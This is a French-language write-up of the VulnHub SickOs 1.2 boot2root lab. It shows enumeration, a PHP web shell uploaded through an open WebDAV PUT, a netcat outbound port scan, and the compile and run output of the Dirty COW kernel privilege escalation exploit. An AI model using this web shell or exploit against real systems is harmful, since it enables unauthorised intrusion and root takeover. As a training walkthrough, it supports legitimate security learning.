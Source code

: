# Solution du CTF SickOs 1.2 de VulnHub

[SickOs: 1.2](https://www.vulnhub.com/entry/sickos-12,144/) est le second et dernier opus de la série. Il s'agit d'un boot2root Linux.

Avce Nmap on voit deux ports ouverts, les autres étant filtrés :

```
Nmap scan report for 192.168.57.4
Host is up (0.00083s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:CE:36:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Une énumération sur le LigHTTPd (avec `gobuster`) ne retourne pas grand chose si ce n'est un dossier `test` vide. Jetons un oeil aux méthodes HTTP autorisées :

```http
$ curl -XOPTIONS -I http://192.168.57.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Fri, 10 Feb 2023 16:46:23 GMT
Server: lighttpd/1.4.28
```

## Du côté de chez DAV

On est clairement en présence d'un `WebDAV`. J'ai tenté d'uploader un fichier avec `cadaver` qui est un peu l'équivalent de la commande ftp pour `WebDAV`.

Malheureusement on obtient une erreur peu parlante. J'ai essayé aussi avec `cURL` (option `-T`) et J'ai capturé la requête et la réponse avec Wireshark :

```http
PUT /test/test.txt HTTP/1.1
Host: 192.168.57.4
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 5
Expect: 100-continue

HTTP/1.1 417 Expectation Failed
Content-Type: text/html
Content-Length: 363
Connection: close
Date: Fri, 10 Feb 2023 17:18:32 GMT
Server: lighttpd/1.4.28

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

WebDAV peut nécessiter une authentification simple (*Authorization Basic*) mais difficile de dire s'il s'agit de ça ici.

Je me suis basé sur cette article qui indique différentes commandes `cURL` pour dialoguer avec WebDAV : [WebDAV with cURL | Code](https://code.blogs.iiidefix.net/posts/webdav-with-curl/)

J'arrive par exemple à créer un sous-dossier :

```bash
curl -X MKCOL http://192.168.57.4/test/yolo/
```

Etrange. Dans la requête générée plus tôt par `cURL` on peut voir un entête `Expect` et le message d'erreur retourné semble y faire référence.

On va essayer plus basique en forgeant la requête avec `requests` :

```python
>>> import requests
>>> requests.put("http://192.168.57.4/test/shell.php", data='<?php system($_GET["cmd"]); ?>')
<Response [201]>
```

Youpi, ça fonctionne !

```http
PUT /test/shell.php HTTP/1.1
Host: 192.168.57.4
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 30

<?php system($_GET["cmd"]); ?>

HTTP/1.1 201 Created
Content-Length: 0
Date: Fri, 10 Feb 2023 17:50:50 GMT
Server: lighttpd/1.4.28
```

## Vache folle

Les ports de la machine sont filtrés et ça semble aussi compliqué d'obtenir un reverse shell.

Netcat est présent sur la machine, on peut faire un scan de notre IP depuis la VM et écouter avec Wireshark ce qui est autorisé.

On peut se baser sur la top liste Nmap des 10 ports les plus communs histoire que ça ne prenne pas des plombes :

```bash
ports=( 21 22 23 25 80 110 139 443 445 3389 ) ; for p in "${ports[@]}" ; do nc -z -w 2 -v 192.168.57.1 $p ; done
```

On observe alors un paquet avec flag SYN sur notre port 443.

Via un reverse-ssh sur ce port on peut uploader et exécuter linpeas qui indique que le système est vulnérable à `Dirty COW` ou à la vulnérabilité `chkrootkit`.

J'ai utilisé le premier exploit. Il est ici instable, après quelques secondes la machine part en kernel panic, il faut prévoir le coup si on souhaite de la persistance.

```bash
www-data@ubuntu:/tmp$ PATH=/usr/lib/gcc/i686-linux-gnu/4.6/:$PATH gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
/usr/include/unistd.h:335:16: note: expected '__off_t' but argument is of type 'void *'
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat]
www-data@ubuntu:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 41284
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@ubuntu:/tmp# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
```

Pour la faille chkrootkit il y a un exemple dans la [Solution du CTF SecTalks: BNE0x02 - Fuku de VulnHub](https://github.com/devl00p/blog/blob/60492c127f22bed556e62c9ab179657af85a6935/ctf_writeups/Solution%20du%20CTF%20SecTalks:%20BNE0x02%20-%20Fuku%20de%20VulnHub.md#fuku)

*Publié le 11 février 2023*
